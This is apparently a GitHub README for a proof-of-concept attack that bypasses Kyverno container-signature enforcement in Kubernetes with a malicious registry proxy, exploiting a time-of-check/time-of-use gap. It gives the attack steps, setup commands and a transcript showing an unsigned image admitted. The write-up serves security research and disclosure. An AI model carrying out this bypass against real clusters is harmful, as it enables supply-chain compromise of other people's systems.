

# Beating container signature validation in Kubernetes Admission Controllers


This repository contains all the scripts and artifacts which you need to re-run the proof of concept attack which I did on a Kubernetes cluster and Kyverno Admission Controller to prove that the current architecture is not secure against malicious proxies and registries.

If you already know everything and just want to re-run the attack, go to direcly to [reproducing the attack section](#reproducing-the-attack) :sunglasses:

# Background

Supply-chain security is a deeply discussed topic in the Cloud Native community and all the projects started to align themselves with the requirements around this topic.

Software components should be validated in every step from development to production. The integrity of container images is key to ensuring that only verified code is running in a Kubernetes cluster.

In order to protect the Kubernetes cluster, multiple Admission Controller vendors started to offer policies that can enforce container image signatures. In other words, they claim that in order to protect your cluster, you can create a policy to only have validated images running inside the cluster.

# Image signature validation in admission controllers
Here is the way signature validation works in admission controllers. (see drawing and steps below)

1. A new workload is requested from the cluster through the Kubernetes API server
2. The API server will ask the Admission Controller to validate the new workload. The Admission Controller decides whether it can be admitted to the cluster
3. The Admission Controller is configured to validate the image signature and requests the image and the signature from the container registry
4. The container registry supplies the signature and the image itself. 
5. Depending on whether the image and the signature are correct, the Admission Controller allows the new workload into the cluster. If the signature is correct, the Admission Controller mutates the `image` field in the Pod spec to contain the hash of the image manifest.
6. API server asks Kubelet to start the new workload with the image hash
7. Kubelet asks the container runtime to start a new container based on the image from mutated in admission time at step 5.
8. Container runtime downloads the image from the container registry
9. Container runtime starts the new container based on the image


# The potential issue in this architecture

There is a classic “TOCTOU” security problem here. The image signatures are checked by the Admission Controller. However, from a system perspective, it is far from the place where the image is used (in the node).

**Admission Controller vendors went for a great length implementing this correctly**, however there is a potential source of problem here when verifing signatures: The verifier and the user are two different entities that are running in different services and at different times. 

Suppose the goal of the attacker is to inject an unsigned image into the cluster against the Admission Controller policies. In that case, she/he has multiple vectors to try to beat the policy enforcement. 

# The attack

The goal is to inject an unsigned image inside a namespace in the cluster which should only be running signed images. 

The attacker controls the container registry (“malicious container registry”) and tricks the user to run a Pod with an image from this registry. Meanwhile, the cluster administrator has a policy in place to protect the cluster from malicious images by enforcing container signatures. From the cluster administrator's perspective, no unsigned images can be admitted into the cluster.

In the POC I had the following components in my hand:
* Kubernetes cluster with Kyverno 
* Minikube + Kyverno (added my Root CA certificate to both, did this to make the POC simpler, however, could have been more sophisticated with a “Let’s Encrypt” cerficiate)
* Container signing key-pair
* Namespace called “signed” with an enforced policy on image signatures (with the public key of the keypair)
* One signed image with the private key in docker hub
* One unsigned image in docker hub
* Proxy server I wrote to be a Man-in-the-Middle between the cluster and docker hub (see the code at the end of this document)

The proxy server behaves in the following way: if it sees that the Admission Controller is asking for an signed image it returns a signed image for signature validation and an unsigned image manifest for the mutation. In any other cases, it just proxies the information between the cluster and docker hub.



The attack steps are as follows:
1. The user is convinced to run the signed image from the “Malicious proxy”
2. kubectl -n signed run unsigned --image=10.0.2.15:4443/hisu/cosign-tests:signed --image-pull-policy='Always'
3. API server asks the admission controller for approval
4. The Admission Controller asks for the image manifest and signature from the “signed image”
5. The malicious proxy returns the “signed image” to the Admission Controller
6. The Admission Controller verifies the signature of the signed image
7. The Admission Controller request the manifest of the signed image for the second time to get the digest for mutation
8. The malicious proxy returns the manifest of the unsigned image
9. The Admission Controller mutates the image in the Pod spec based on the manifest in step 8 and gives approval to the API server
10. Kubelet is asked to start the POD

**The container is started based on the unsigned image**

# Reproducing the attack

**Note:** Since image registry API assumes HTTPS (for good!) the attacker must obtain a valid TLS Certificate for the proxy/server. In this POC I decided to create my own Root CA and embed it both Kubernetes and Kyverno to bypass this problem. This is not an ideal choice for a real life attacker who could solve this in different ways (for example: buying a domain and obtaining Let's Encrypt signed certificate for that domain). 

Note that the way I solved this here is not limiting the problem, but helps this demontration to be more easily to demostrate.

## Setting up the cluster

### Run the script
I have prepared a convinient script (tested on Ubuntu)
```shell{:copy}
./setup-cluster.sh
```
If you want to do it yourself, do the following steps otherwise skip to [Setting up malicious proxy](#setting-up-malicious-proxy)
### Minikube 
Creating a minikube instance with an added root CA certificate (see note above).
```shell{:copy}
cp certs/benCA.pem $HOME/.minikube/certs/. # adding the own root CA to minikube (see comments above)
minikube start --driver=docker --embed-certs
```

### Installing Kyverno
Note I am using my own Kyverno image which was built using `kyverno-image/Dockerfile`. The only difference between the official Kyverno image and `hisu/kyverno` is that my build contains the extra root CA certificate.
 (see note above)
```shell{:copy}
helm install kyverno kyverno/kyverno -n kyverno --create-namespace --set replicaCount=1 --set image.repository=hisu/kyverno
helm install kyverno-policies kyverno/kyverno-policies -n kyverno
```

### Creating a protected namespace
Here I am creating the namspace `signed` and I am adding a policy which should only allow images which were signed by `cosign.key` to be admitted in it.
```shell{:copy}
kubectl create ns signed
kubectl apply -f signed-policy.yaml
```

### Container images in Dockerhub

I have created two images:

1. `hisu/cosign-test:signed`: Image based on nginx:latest and signed by `cosign.key`
2. `hisu/cosign-test:unsigned`: Image built with the Dockerfile at `nginx-alternative-image/Dockerfile` with a single file change 


### Proving the policy works

I cannot run the unsigned image, this command should fail:
```shell{:copy}
kubectl -n signed run unsigned --image=hisu/cosign-tests:unsigned --image-pull-policy='Always'
```


And this should succed
```shell{:copy}
kubectl -n signed run signed --image=hisu/cosign-tests:signed --image-pull-policy='Always'
```

## Setting up malicious proxy

The IP of your proxy is important for the sake of this demonstration. It needs to be accessible both for the node (image pull by the container runtime) and the admission controller POD (checking image signature).

Let's bring up the malicious proxy. I have created a simple script to create signed certificate for the proxy and start the proxy. To run:
```shell{:copy}
./setup-malicious-proxy.sh <IP>
```

## Showing attack

### Running the guided script

You can run also the following script to run through all the positive and negative cases:
```shell{:copy}
$ ./running-attack-tests.sh <IP>
1> Trying to run unsigned image in signed namespace
----------------------------------------
kubectl -n signed run unsigned --image=hisu/cosign-tests:unsigned --image-pull-policy=Always
Error from server: admission webhook "mutate.kyverno.svc-fail" denied the request: 

policy Pod/signed/unsigned for resource violation: 

check-image:
  check-image: |
    failed to verify image docker.io/hisu/cosign-tests:unsigned: .attestors[0].entries[0].keys: no matching signatures:
----------------------------------------
Press enter to continue
2> Trying to run signed image in signed namespace
----------------------------------------
kubectl -n signed run signed --image=hisu/cosign-tests:signed --image-pull-policy=Always
pod/signed created
----------------------------------------
2> Succeeded to run signed image in signed namespace
Press enter to continue
3> Trying to run unsigned image in signed namespace by using the proxy
----------------------------------------
kubectl -n signed run unsigned --image=10.100.102.57:4443/hisu/cosign-tests:unsigned --image-pull-policy=Always
pod/unsigned created
----------------------------------------
 ___ _   _  ___ ___ ___  ___ ___ 
/ __| | | |/ __/ __/ _ \/ __/ __|
\__ \ |_| | (_| (_|  __/\__ \__ \
|___/\__,_|\___\___\___||___/___/

3> Succeeded to run unsigned image in signed namespace by using the proxy
Press enter to continue
pod "unsigned" deleted
pod "signed" deleted
```

### Running a standalone unsigned image
If you run:
```shell{:copy}
kubectl -n signed run unsigned --image=<IP>:4443/hisu/cosign-tests:signed --image-pull-policy='Always'
```

See here


